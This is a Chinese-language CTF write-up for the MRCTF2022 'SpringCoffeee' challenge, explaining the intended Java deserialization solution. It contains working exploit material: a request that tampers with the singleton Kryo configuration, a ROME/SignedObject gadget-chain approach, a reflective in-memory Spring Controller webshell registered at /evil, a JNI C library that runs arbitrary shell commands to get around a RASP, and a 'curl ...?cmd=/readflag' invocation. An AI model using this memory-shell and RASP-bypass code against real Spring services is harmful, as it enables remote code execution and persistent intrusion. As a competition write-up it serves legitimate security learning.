



# MRCTF2022 SpringCoffeee

## 环境启动

```
docker-compose up -d --build
```

## Exp

```
cd exp
python exp.py
curl localhost:10805/evil?cmd=/readflag
```

## WriteUp

考点：Controller 单例模式+Kryo反序列化+Rome反序列化链+SignedObject二次反序列化+Rasp绕过

这个题的灵感来自hf2022的ezchain，当时没做出来，赛后学了一波signedObject的二次注入手法，深感巧妙，然后就缝合出了这个题。

首先从``marshalsec``中抓了一个比较冷门的序列器``kyro``,他在反序列化``HashMap``的时候也是会调用``hashCode``的，因此也可用``Rome``这条链子打,不过有个小问题是在默认情况下kryo只能反序列化带有空参构造函数的类，因此需要修改一下kryo的反序列化配置。设置``InstantiatorStarategy``为``org.objenesis.strategy.StdInstantiatorStrategy``，并且关闭调需要注册才能反序列化的功能。题目里给了这样一个接口。

```java
    @RequestMapping("/coffee/demo")
    public Message demoFlavor(@RequestBody String raw) throws Exception {
        System.out.println(raw);
        JSONObject serializeConfig = new JSONObject(raw);
        if(serializeConfig.has("polish")&&serializeConfig.getBoolean("polish")){
            kryo=new Kryo();
            for (Method setMethod:kryo.getClass().getDeclaredMethods()) {
                if(!setMethod.getName().startsWith("set")){
                    continue;
                }
                try {
                    Object p1 = serializeConfig.get(setMethod.getName().substring(3));
                    if(!setMethod.getParameterTypes()[0].isPrimitive()){
                        try {
                            p1 = Class.forName((String) p1).newInstance();
                            setMethod.invoke(kryo, p1);
                        }catch (Exception e){
                            e.printStackTrace();
                        }
                    }else{
                        setMethod.invoke(kryo,p1);
                    }
                }catch (Exception e){
                    continue;
                }
            }
        }

        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        Output output = new Output(bos);
        kryo.register(Mocha.class);
        kryo.writeClassAndObject(output,new Mocha());
        output.flush();
        output.close();

        return new Message(200,"Mocha!",Base64.getEncoder().encode(bos.toByteArray()));
    }
```

可以修改kryo的配置。

在默认情况下``Spring Controller``是单例的，每个请求拿到的kryo是一样的。因此，我们在``demoFlavor``处通过``set``方法去修改kryo的策略就可以在``order``接口绕过限制

```python
def demo():
    data = {
        "polish":True,
        "References":True,
        "RegistrationRequired":False,
        "InstantiatorStrategy":"org.objenesis.strategy.StdInstantiatorStrategy",
    }
    res = requests.post(url+"/coffee/demo",json=data)

    return res.json()
```


接下来就是ROME反序列化了，不过和hessian2一样，因为不是原生反序列化，``TemplateImpl``的``transient _tfactory``是会序列化过程中丢失的，所以无法直接用，而又因为不出网，所以这里采用经典的ROME二次反序列化：

``ROME->SignedObject->ROME->TemplateImpl``

这里的代码可以参考GitHub上的[marshalsec项目](https://github.com/EkiXu/marshalexp/blob/ebf65ae9806b46337bd13b82869919c32bb36e76/src/main/java/xyz/eki/marshalexp/poc/Rome.java#L46)

到了这一步就可以在目标上任意执行字节码了，不过没办法直接``Runtime.getRuntime().exec()``，这是为什么呢？
如果去读目录和文件就会发现目录下有个``rasp.jar``




作用很简单，就是把``java.lang.ProcessImpl``的``start``方法置空了，这样``Runtime``之流就没法执行命令了。

不过因为目标机器是Linux系统，我们可以直接调用``UnixProcess``这个更为底层的类去执行方法，或者可以通过``jni``的方式直接进行系统调用。这里简单介绍一下JNI的方式。

首先还是老规矩注册一个内存马，这里为了方便JNI，直接注入一个没有类依赖关系的``Controller``内存马

```java
static {

        try {
            String inject_uri = "/evil";
            System.out.println("Controller Injecting");
            WebApplicationContext context = (WebApplicationContext) RequestContextHolder.
                    currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
            RequestMappingHandlerMapping mappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);

            Field f = mappingHandlerMapping.getClass().getSuperclass().getSuperclass().getDeclaredField("mappingRegistry");
            f.setAccessible(true);
            Object mappingRegistry = f.get(mappingHandlerMapping);

            Class<?> c = Class.forName("org.springframework.web.servlet.handler.AbstractHandlerMethodMapping$MappingRegistry");

            Method[] ms = c.getDeclaredMethods();

            Field field = null;
            try {
                field = c.getDeclaredField("urlLookup");
                field.setAccessible(true);
            }catch (NoSuchFieldException e){
                field = c.getDeclaredField("pathLookup");
                field.setAccessible(true);
            }

            Map<String, Object> urlLookup = (Map<String, Object>) field.get(mappingRegistry);
            for (String urlPath : urlLookup.keySet()) {
                if (inject_uri.equals(urlPath)) {
                    throw new Exception("already had same urlPath");
                }
            }

            Class <?> evilClass = MSpringJNIController.class;

            Method method2 = evilClass.getMethod("index");

            RequestMappingInfo.BuilderConfiguration option = new RequestMappingInfo.BuilderConfiguration();
            option.setPatternParser(new PathPatternParser());

            RequestMappingInfo info = RequestMappingInfo.paths(inject_uri).options(option).build();

            // 将该controller注册到Spring容器
            mappingHandlerMapping.registerMapping(info, evilClass.newInstance(), method2);
        }catch (Exception e){
            e.printStackTrace();
        }
    }
```


这里一个方法是native的，表示从库中调用，一个方法用来做回显路由

```java
public class MSpringJNIController {
    public native String doExec(String cmd);
    @ResponseBody
    public void index() throws IOException {
        ...
    }
}
```

用javah生成头文件

```c
/* DO NOT EDIT THIS FILE - it is machine generated */
#include <jni.h>
/* Header for class xyz_eki_serialexp_memshell_MSpringJNIController */

#ifndef _Included_xyz_eki_serialexp_memshell_MSpringJNIController
#define _Included_xyz_eki_serialexp_memshell_MSpringJNIController
#ifdef __cplusplus
extern "C" {
#endif
/*
 * Class:     xyz_eki_serialexp_memshell_MSpringJNIController
 * Method:    doExec
 * Signature: (Ljava/lang/String;)Ljava/lang/String;
 */
JNIEXPORT jstring JNICALL Java_xyz_eki_serialexp_memshell_MSpringJNIController_doExec
  (JNIEnv *, jobject, jstring);

#ifdef __cplusplus
}
#endif
#endif
```

然后就可以在对应的``Java_xyz_eki_serialexp_memshell_MSpringJNIController_doExec``函数里写相关逻辑了


这里简单写一个命令执行

```c
#include<jni.h>
#include<stdio.h>
#include<cstdlib>
#include<cstring>
#include "xyz_eki_serialexp_memshell_MSpringJNIController.h"

int execmd(const char *cmd, char *result)
{
    char buffer[1024*12];              //定义缓冲区
    FILE *pipe = popen(cmd, "r"); //打开管道，并执行命令
    if (!pipe)
        return 0; //返回0表示运行失败

    while (!feof(pipe))
    {
        if (fgets(buffer, 256, pipe))
        { //将管道输出到result中
            strcat(result, buffer);
        }
    }
    pclose(pipe); //关闭管道
    return 1;      //返回1表示运行成功
}


JNIEXPORT jstring JNICALL Java_xyz_eki_serialexp_memshell_MSpringJNIController_doExec(JNIEnv *env, jobject thisObj,jstring jstr) {
    const char *cstr = env->GetStringUTFChars(jstr, NULL);
    char result[1024 * 12] = ""; //定义存放结果的字符串数组
    execmd(cstr, result);
    
    char return_messge[256] = "";
    strcat(return_messge, result);
    jstring cmdresult = env->NewStringUTF(return_messge);

    return cmdresult;
}

JNIEXPORT jint JNICALL JNI_OnLoad(JavaVM* vm, void* reserved){
    return JNI_VERSION_1_4; //这里很重要，必须返回版本，否则加载会失败。
}
```

然后我们就可以执行命令了




不过为了卡一些奇怪的RCE方式，给``readflag``加了个算数挑战，需要简单交互一下子




这里用c也很好实现

```c
static int start_subprocess(char *command[], int *pid, int *infd, int *outfd){
    int p1[2], p2[2];

    if (!pid || !infd || !outfd)
        return 0;

    if (pipe(p1) == -1)
        goto err_pipe1;
    if (pipe(p2) == -1)
        goto err_pipe2;
    if ((*pid = fork()) == -1)
        goto err_fork;

    if (*pid)
    {
        /* Parent process. */
        *infd = p1[1];
        *outfd = p2[0];
        close(p1[0]);
        close(p2[1]);
        return 1;
    }
    else
    {
        /* Child process. */
        dup2(p1[0], 0);
        dup2(p2[1], 1);
        close(p1[0]);
        close(p1[1]);
        close(p2[0]);
        close(p2[1]);
        execvp(*command, command);
        /* Error occured. */
        fprintf(stderr, "error running %s: %s", *command, strerror(errno));
        abort();
    }

err_fork:
    close(p2[1]);
    close(p2[0]);
err_pipe2:
    close(p1[1]);
    close(p1[0]);
err_pipe1:
    return 0;
}

int readnum(int infd)
{
    int sign = 1;
    char x;
    int val = 0;
    read(infd, &x, 1);
    if (x == '-')
    {
        sign = -1;
        read(infd, &x, 1);
    }
    while ( '0'<= x && x <= '9')
    {
        val *= 10;
        val += (x - '0');
        read(infd, &x, 1);
    }
    return val * sign;
}

void solve(char* buf){
    int pid, infd, outfd;
    char *cmd[2];
    cmd[0] = "/readflag";
    cmd[1] = 0;
    start_subprocess(cmd, &pid, &outfd, &infd);
    memset(buf,0,sizeof(buf));

    read(infd, buf, strlen("please answer the challenge below first:\n"));

    int a, b;

    a = readnum(infd);
    b = readnum(infd);


    int ans = a + b;
    char v_str[1000];
    sprintf(v_str, "%d\n", ans);

    write(outfd, v_str, strlen(v_str));
    memset(buf,0,sizeof(buf));
    read(infd, buf, 1000);
    read(infd, buf, 1000);
    read(infd, buf, 1000);
}
```